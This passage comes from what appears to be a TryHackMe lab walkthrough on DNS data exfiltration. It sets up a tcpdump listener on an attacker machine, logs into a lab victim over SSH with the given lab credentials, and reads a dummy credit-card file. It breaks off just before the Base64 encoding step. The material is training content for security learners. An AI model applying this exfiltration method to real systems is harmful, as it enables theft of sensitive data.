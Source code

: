 In order to receive any DNS request, we need to capture the network traffic for any incoming UDP/53 packets using the tcpdump tool.

```
Capturing DNS requests on the Attacker Machine

           
			
thm@attacker$ sudo tcpdump -i eth0 udp port 53 -v 
tcpdump: listening on eth0, link-type RAW (Raw IP), snapshot length 262144 bytes

	    
```

Once the attacker machine is ready, we can move to the next step which is to connect to our victim2 through SSH, which could be done from the Jump Box using the following credentials: thm:tryhackme.

```
Connect to Victim 2 via SSH Client from JumpBox

           
			
thm@jump-box$ ssh thm@victim2.thm.com

	    
```

Or from the AttackBox machine using the 10.10.20.177 and port 2122 as follows,

```
Connect to Victim 2 via SSH Client from AttackBox

           
			
root@AttackBox$ ssh thm@10.10.20.177 -p 2122

	    
```

On the victim2 machine, there is a task9/credit.txt file with dummy data.

```
Checking the content of the creds.txt file

           
			
thm@victim2$ cat task9/credit.txt
Name: THM-user
Address: 1234 Internet, THM
Credit Card: 1234-1234-1234-1234
Expire: 05/05/2022
Code: 1337

	    
```
In order to send the content of a file, we need to convert it into a string representation which could be done using any encoding representation such as Base64, Hex, Binary, etc. In our case, we encode the file using Base64 as follows,
